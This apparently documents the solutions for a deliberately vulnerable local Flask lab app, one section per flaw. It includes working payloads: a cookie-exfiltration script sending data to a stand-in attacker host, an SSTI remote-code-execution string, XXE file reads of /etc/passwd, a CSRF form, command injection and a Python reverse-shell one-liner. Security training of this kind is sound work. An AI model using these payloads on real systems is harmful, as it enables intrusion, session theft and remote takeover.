### LFI challenge

http://127.0.0.1:8080/find_secret?file=..\..\..\secrets.txt


### SQLi:

enter "' OR 'a'='a';--" inside the Email Address field

### XSS stored:

After logging in as a user,
Add a note such as "<script> alert(1) </script>"

Due to the insecure session management, an attacker can also retrieve the session data of the logged-in user with
the following script.

```
<script>document.location='http://veryevilhacker.com?cookie='+document.cookie</script>
```

An attacker hosting the malicious site can look at the log data and sees the user's cookie value to authenticate as the user.


### Command injection:


go to http://127.0.0.1:8080/ping and

enter "127.0.0.1 | whoami"


### XSS Reflected:


### SSTI:

Vulnerable Endpoint: http://127.0.0.1:8080/find_secret?file=

If you supply a file name that doesn't exist on the backend, it shows an error such as "404 page not found: the resource does not exist!".

Since the template is being used insecurely, it's vulnerable to SSTI.

Simply supply {{ 7 * 7 }} for the file parameter and observe it returns 49.

We can also achieve a RCE with: (reveals the files in the current directory)

```
http://127.0.0.1:8080/find_secret?file={%%20for%20x%20in%20().__class__.__base__.__subclasses__()%20%}{%%20if%20%22warning%22%20in%20x.__name__%20%}{{x()._module.__builtins__[%27__import__%27](%27os%27).popen(%22dir%22).read()}}{%endif%}{%%20endfor%20%}
```


### CSRF attack

After logging in, there's a functionality to change the current user's email.

Since the CSRF token is not implemented, attacker can craft a payload and put it inside a website to trick a user to visit the site, then submit a form to change the logged-in user's email to whatever the email attacker specifies it as.
Payload:
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

```

#### XXE

The login page shows there's an endpoint /is_xml where a user can send a post request containing an XML file with a key:xml to check if the file is valid.
This function is vulnerable to an XXE attack.

sample payload:

Linux:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<items>
    <name>&xxe;</name>
    <price>100</price>

</items>

```


Windows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///C:/windows/system32/drivers/etc/hosts">]>
<items>
    <name>&xxe;</name>
    <price>100</price>

</items>
```

Upload the xml file via a POSTMAN by choosing the "form-data" option and specify the Key as "xml" and select the payload file.


### IDOR 

A logged-in user is able to enumerate other user's email addresses at /users?id=ID_NUMBER.
Essentially, any logged_in user can enumerate all the users' email addresses by going through the id values.

### Security Misconfiguration + RCE

Inside the login page, there's a comment that mentions /oauth endpoint that's under development. When a User visits this page, it shows an error.

html comment:
```html

<!--TO DO: /oauth endpoint is under development-->
```
The error page shows the flask debugger has been pushed to production and a PIN is disabled.  An attacker can open a python interactive shell by clicking the command line icon.

With python, an attacker can obtain a reverse shell or issue any command. 

Simple Command POC that opens a calculator on the target system: 
```python
#Windows
os.system('calc')
#Linux 
os.system('xcalc')
```

Reverse shell command POC:

Adjust the IP and the port for demo.
```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

